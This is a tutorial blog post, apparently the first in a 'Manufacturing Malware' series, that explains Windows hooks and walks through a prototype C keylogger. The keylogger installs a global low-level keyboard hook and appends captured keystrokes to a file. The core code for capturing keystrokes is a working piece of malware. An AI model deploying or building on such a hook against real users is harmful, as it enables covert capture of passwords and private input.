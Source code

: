 ```yaml
---
layout: post
title: "Manufacturing Malware 0x01 - Keyloggers Part I"
date: 2016-04-27 14:00:00 +0100
categories: Malware
tags:
  - malware
  - windows
  - winapi
  - c
author: dtm
---
```

S'goin' on guys, dtm here with a write-up on a type of Windows keylogger.

As a promotional gift, I will be showcasing and detailing a functional keylogger on the code level written in MSVC++ utilising the WinAPI.

**Disclaimer**: The following document is not newbie-friendly and requires a fair amount of knowledge of both general programming concepts and Windows internals:

	Proficiency in C/C++
	Knowledge of the WinAPI and its documentation
	Knowledge of Windows messages and message queues
	Knowledge of Windows hooks
	Some understanding of multi-threading
	Recommended knowledge of Mutual Exclusions
	Recommended knowledge of FTP
	Recommended knowledge with the Windows Registry
	Recommended knowledge with Virtual environments
	Recommended knowledge of debuggers
	
- - - -
	
## General Overview of Keyloggers
A keylogger is an object which, in its simplest state, tracks key presses registered by the keyboard. Note that this object can be hardware as well as software but this article will focus more on the latter. When a key is pressed, the keylogger is able to capture it and then pass it along to its original destination. Keyloggers are not always considered malware since it is dependant on the situation in which it is used. Consider the following: If a parent is concerned about their child's activity on the computer, they can easily monitor them through their keyboard input; or in a company, the employer wishes to monitor the activity of his employees to make sure that they aren't doing what they aren't supposed to do. in fact, this probably goes for all "malware". Such applications may be referred to as _Possibly Unwanted Programs_ (PUP) or _Possibly Unwanted Applications_ (PUA).

In a standard console application which takes keyboard input, for example, using the _getchar_ function from the standard C library, the input from the keyboard gets buffered into the stdin where the program can fetch the character. A keylogger is not limited to its own active console window (if it even has one at all) so how are we able to globally capture keystrokes? The aswer is pretty simple, actually; in fact, Microsoft has already done most of the heavy lifting for us.

- - - -

## Callback Functions
Windows applications all work in harmony using something called **messages**. These messages are all passed through the message queue and each application can detect and process its own messages. Within the applications are _callback_ functions which may be called in the event of retrieving certain messages. For example, pressing ALT+F4 in a GUI window will send a `WM_CLOSE` message into the message queue where the corresponding application's **message loop** will detect it and pass it to a [`WindowProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms633573%28v=vs.85%29.aspx) callback function for processing. What happens inside this function is that the message is filtered through some switch cases and in the case of a `WM_CLOSE` message, it will handle any clean ups and whatever else it needs, then it will destroy the window and also possibly exit the program. 

```c
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
	switch (uMsg) {
		case WM_CLOSE:
			// ...
			DestroyWindow(hwnd);
	}
```

Additional message information may also be passed into the callback function under WPARAM and LPARAM arguments. Note that these arguments will not always be the same and can change under different callback functions.

### LowLevelKeyboardProc
There exists a callback function called [`LowLevelKeyboardProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644985%28v=vs.85%29.aspx) and what this function does is it responds to key state changes either within a thread scope or a global scope - of course we're wanting to have a global scope for our purposes. But before we can use this function, we first need to learn about Windows hooks.

- - - -

## Windows Hooks
From the MSDN documentation on [Windows Hooks](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644959%28v=vs.85%29.aspx), "*A hook is a mechanism by which an application can intercept events, such as messages, mouse actions, and keystrokes. A function that intercepts a particular type of event is known as a hook procedure. A hook procedure can act on each event it receives, and then modify or discard the event.*" As we can see from this description, applications are able to *"intercept ... keystrokes*" and that is exactly what we are aiming to do with a keylogger.

### Installing Hooks
To install a hook procedure, we must use the [`SetWindowsHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx) function to install a hook like so:

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHook(idHook, (HOOKPROC)HookProc, hMod, dwThreadId);
	
	// this is our message loop to receive messages from the queue
	MSG msg;
	BOOL bRet;
	while ((bRet = GetMessage(&msg, NULL, 0, 0)) != 0) {
		if (bRet == -1) {
			// handle error
		} else {
			TranslateMessage(&msg);
			DispatchMessage(&msg);
		}
	}
	
	return 0;
}
```

Here, we would define a callback function `HookProc` and use a call to `SetWindowsHookEx` to install a hook so that our function can intercept and handle the hook procedure of type `idHook`. In the HookProc, we are highly recommended to call [`CallNextHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644974%28v=vs.85%29.aspx) to be able to pass the hooked information onwards to the next existing hook procedure. 

Let's finally get our hands dirty by writing a prototype.

- - - -

## Keylogger Prototyping
**Disclaimer**: The following code snippets will not contain any error checking for the sake of readability.

We now know what we need to set up a function to intercept keystrokes from the information provided above. It should look a little something like this:

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHook(WH_KEYBOARD_LL, (HOOKPROC)LowLevelKeyboardProc, hModule, 0);
	
	// message loop here
}
```

For our `SetWindowsHookEx`, we require the `idHook` parameter to be `WH_KEYBOARD_LL` since it has a global scope. For our dwThreadId parameter, we set it to 0 since this will allow our hook procedure to be associated will all existing threads running on the same desktop as our application. As of yet, our keylogger is useless to us since we have not implemented any method to store the keystrokes.

### Writing Keystrokes to Disk
First, we need to know about the arguments which are passed into the `LoweLevelKeyboardProc` function. 

According to the MSDN documentation for the `LowLevelKeyboardProc` function, `nCode` will hold the value `HC_ACTION` if *" `wParam` and `lParam` parameters contain information about a keyboard message"*. So only when `nCode` is equal to `HC_ACTION` will we need to write to the file, else we do not care. Once we have such a situation, we will need to check the `wParam` and `lParam` for information about the keypress. `wParam` contains information about how the key was pressed such as a key down or key up. `lParam` is documented as a pointer to a [`KBDLLHOOKSTRUCT`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644967%28v=vs.85%29.aspx) which contains the respective [`vkCode`](https://msdn.microsoft.com/en-us/library/windows/desktop/dd375731%28v=vs.85%29.aspx) of the keypress.

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	if (nCode == HC_ACTION) {
		if (wParam == WM_KEYDOWN) {
			KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
			DWORD vkCode = kbd->vkCode;
			
			if (vkCode >= 0x30 && vkCode <= 0x5A) {
				FILE *fp = fopen(KEYLOG_FILE, "a+");
				
				fputc(vkCode, fp);
				
				fclose(fp);
			}
		}
	}
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```

We can typecase the `lParam` as a pointer to a `KBDLLHOOKSTRUCT` and assign it to a variable `kbd`. For this example, we only test for basic input which includes keys ranging from `0-9` and `A-Z`. Of course, right now there is a lot missing detail with regards to other keys such as `ALT`, `CTRL` and `SHIFT` and also that it cannot differentiate upper and lower case and symbols. We can easily fix this by manually adding in some tests and switch statements until it reaches our satisfaction. Once we have extracted the `vkCode` member from `kbd` and it satisfies the key range, we will open our file defined by `KEYLOG_FILE` with an append mode and simply add on the `vkCode` to the end of the file.

After we've finished what we intended to do, we can then push the keypress onwards to the next hook procedure.

- - - -

## Conclusion
In the next part I will showcase my keylogger code and briefly run through its functionality and how it's achieved. Thanks for reading and stay tuned!

*-- dtm*
